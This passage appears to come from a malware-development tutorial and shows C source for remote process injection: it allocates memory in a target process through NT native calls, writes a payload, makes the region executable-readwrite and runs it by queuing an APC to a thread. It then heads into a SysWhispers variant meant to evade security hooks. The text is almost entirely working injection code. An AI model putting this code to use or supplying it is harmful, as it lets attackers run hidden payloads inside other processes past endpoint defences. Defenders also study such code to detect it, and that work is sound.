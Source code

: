 ```
	// Allocating memory
	if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Executing the payload via NtQueueApcThread

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
	if ((STATUS = St.pNtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
		printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");

	return TRUE;
}

```
### **Implementation Using SysWhispers**
